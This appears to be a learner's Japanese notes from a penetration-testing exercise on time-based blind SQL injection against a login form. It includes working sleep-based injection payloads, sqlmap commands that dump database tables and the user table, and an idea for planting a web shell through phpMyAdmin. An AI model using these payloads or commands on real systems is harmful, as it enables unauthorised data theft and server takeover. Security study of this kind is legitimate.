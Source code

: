 ### Time-based SQLi

- Blindを時間ベースで調べる
- 教科書的に言うとサイドチャネル攻撃だよね

### 存在しているadminユーザーでデータベース構造を表示する

```
admin' and (SELECT sleep(5) from dual where database() like 'a%');--
```

- Aから始まるデータベースはあるかを調査する

```
admin' and (SELECT sleep(5) from dual where database() like 'b%');--
```

- Bから始まるデータベースはあるのか

### SQLMapの活用

```
sqlmap -r ecalsslogin.raw
```

- POSTのログ?

### ポイント

- 見つかったデータベースの中でどこに「おいしい（juice）」な情報があるのか

```
sqlmap -r ecalsslogin.raw -v -D eclass --tables --batch
```

### ユーザー指定実行

```
sqlmap -r ecalsslogin.raw -v -D eclass -T user
```

（このあとはわからなかった）

## その他

### 確認項目

- カーネルバージョンの確認

### phpMyAdmin活用

- phpMyAdminにMySQLの認証情報でログインできる
- phpMyAdminにどんなクエリでも実行できるはず、右ファイルの書き込みができるのではないか
- なのでWebシェルを設置することができないだろうか

### 追加情報
